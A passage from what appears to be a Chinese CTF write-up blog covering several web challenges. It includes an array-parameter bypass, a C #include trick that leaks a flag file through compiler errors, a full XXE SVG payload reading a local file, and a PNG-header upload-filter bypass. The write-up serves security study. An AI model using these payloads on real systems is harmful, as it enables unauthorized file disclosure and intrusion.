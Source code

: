 ```php
        phpinfo();  // collect information from phpinfo!
    }
}
```

数组绕过： roam1[]=1&roam2[]=2 ，phpinfo搜索flag

# [FireshellCTF2020]Caas

挺新鲜的题目，可以将c代码编译成elf文件

![image-20220218002417596](https://img-blog.csdnimg.cn/img_convert/b8825ff800201279e68f6f85c2306f4b.png)

**#include "/flag"** 引入一下，报错信息出现flag

# [BSidesCF 2019]SVGMagic

svg转png

![image-20220218002810265](https://img-blog.csdnimg.cn/img_convert/82d9998ea765986ea9986cfa8b59040e.png)

先看一下svg定义：SVG 是使用 XML 来描述二维图形和绘图程序的语言。

看一下svg长什么样

![image-20220218003348134](https://img-blog.csdnimg.cn/img_convert/d93f8ac7fb0314a38b5723821168700c.png)

当然想到能xxe喽还能xss，[浅谈SVG的两个黑魔法 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/323315064) ，**/proc/self/cwd/ **代表的是当前路径

payload

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
```



# [HarekazeCTF2019]Avatar Uploader 

因为 **finfo_file()** 可以识别png图片**十六进制下的第一行**，而 **getimagesize** 不可以。所以只要保持png头破坏掉文件长宽等其余信息就能绕过了，使用010工具把文件头单独保留出来，然后进行文件上传

[(3条消息) [HarekazeCTF2019\]Avatar Uploader 1_Youth____的博客-CSDN博客](https://blog.csdn.net/Youth____/article/details/113574132)

```
89 50 4E 47 0D 0A 1A 0A 00 00 00 0D 49 48 44 52
```
